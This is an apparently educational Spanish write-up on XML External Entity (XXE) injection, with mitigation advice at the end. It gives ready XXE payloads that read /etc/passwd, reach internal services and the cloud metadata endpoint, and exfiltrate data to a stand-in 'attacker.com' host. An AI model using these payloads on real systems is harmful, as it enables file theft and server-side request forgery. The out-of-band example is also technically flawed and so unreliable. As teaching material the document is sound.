 # XML External Entity Injection

## 🔧 Qué es una vulnerabilidad XXE

Una **XXE injection** es una vulnerabilidad de seguridad web que ocurre cuando una aplicación procesa datos XML de forma insegura. Esto permite a un atacante:

* Leer archivos arbitrarios del servidor (como `/etc/passwd`).
* Realizar ataques SSRF.
* Exfiltrar datos de forma encubierta (blind XXE).

La causa principal es que muchos parsers XML soportan por defecto funcionalidades peligrosas como las **entidades externas**, sin requerir que la aplicación las use intencionalmente.

---

## 🤖 Qué son las entidades externas en XML

XML permite definir **entidades externas** en la sección `DOCTYPE`, que pueden cargar contenido desde archivos locales o URLs externas. Ejemplo:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

Esta entidad `xxe` representará el contenido del archivo `/etc/passwd`, si el parser lo permite. Luego, podrá utilizarse en cualquier parte del XML como `&xxe;`.

---

## 🤷‍♂️ Por qué surgen las vulnerabilidades XXE

* Muchas aplicaciones utilizan XML para transmitir datos entre cliente y servidor (por ejemplo, en APIs SOAP o sistemas legados).
* Usan bibliotecas como `libxml`, `XMLParser`, etc. que admiten entidades externas por defecto.
* Si la configuración no desactiva esas funcionalidades, un atacante podrá aprovecharlas para manipular la forma en que se procesan los datos.

---

## 📊 Tipos de ataques XXE

### 1. ✅ **Lectura de archivos locales**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
```

Esto causará que el contenido de `/etc/passwd` se inserte en el lugar de `&xxe;` y sea devuelto en la respuesta si se incluye.

### 2. 📡 **SSRF)**

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.service.local/admin"> ]>
```

Esto puede ser usado para escanear servicios internos o atacar metadata APIs (ej. `http://169.254.169.254` en AWS).

### 3. 🔒 **Blind XXE con exfiltración OOB (Out-of-band)**

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://attacker.com/exfil?data=file:///etc/passwd"> ]>
```

El servidor hace la solicitud, filtrando información al dominio del atacante.

### 4. 💡 **Blind XXE por error**

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>&xxe;&invalid;</productId>
</stockCheck>
```

Puede generar errores que revelen partes del contenido si el parser no puede manejar el resultado.

---

## 🔢 Detección sistemática de XXE

En escenarios reales, el XML puede tener varios nodos. El atacante debe probar su entidad `&xxe;` en cada nodo individual y observar en cuál se refleja su valor. Por ejemplo:

```xml
<order>
  <client>&xxe;</client>
  <productId>42</productId>
  <comments>Urgente</comments>
</order>
```

---



---

## 🚫 Mitigación y mejores prácticas

* ❌ No uses parsers XML inseguros o con configuraciones por defecto.
* ✅ Deshabilitá resolución de entidades externas (ej. `disableEntityExpansion=true`).
* ✉️ Usá formatos más seguros como JSON.
* ⛨️ Aplicá control de salida: nunca reflejes ciegamente contenido XML procesado.

---

## 📃 Lecciones aprendidas

* Las vulnerabilidades XXE pueden parecer complejas, pero a menudo surgen por configuraciones inseguras.
* Son un vector frecuente en APIs SOAP, servicios legados, y sistemas que procesan XML.
* Pueden convertirse en SSRF, filtración de datos o incluso RCE.

---

Próximamente: resolución paso a paso del laboratorio de lectura de archivos con XXE.
